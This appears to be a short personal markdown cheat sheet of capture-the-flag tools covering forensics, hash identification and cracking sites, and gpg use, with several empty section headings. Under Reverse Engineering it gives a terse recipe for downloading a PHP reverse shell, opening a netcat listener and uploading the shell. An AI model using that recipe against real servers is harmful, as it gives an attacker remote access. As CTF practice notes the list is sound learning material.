 # CTF TOOLS GUIDE

beginner: [CTFtime.org](http://CTFtime.org), ctflearn, pwntilldawn

discord:hacker101 & htb

`git remote add origin <https://github.com/sovayle/`>

# Forensics

software: HxD, Autopsy

# Web Exploitation

# Cryptography

websites: [hashes.com](http://hashes.com), crackstation, cyberchef
hashes.com hash identifier

python3 hash identifier
`wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py`

`python3 hash-id.py`

hash-identifier 7bf6d9bb82bed1302f331fc6b816aada

gpg --help
gpg --import tryhackme.key
gpg message.gpg
cat message


# Reverse Engineering

![RE example.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/720f4b35-149f-42ac-924a-4db489bc5b3a/RE_example.png)

![RE example2.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/56c5f5e9-f997-4663-9b5d-e0d5b96a9d3b/RE_example2.png)

![RE example3.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6392dd19-8341-4097-880a-f4a2a8d9c73c/RE_example3.png)

wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

sudo nc -lvnp 1234
upload reverse shell script
profit

wget hash identifier website

Remmina for RDP


# Binary Exploitation

# OSINT

# Steganography

# Programming (Development challenges)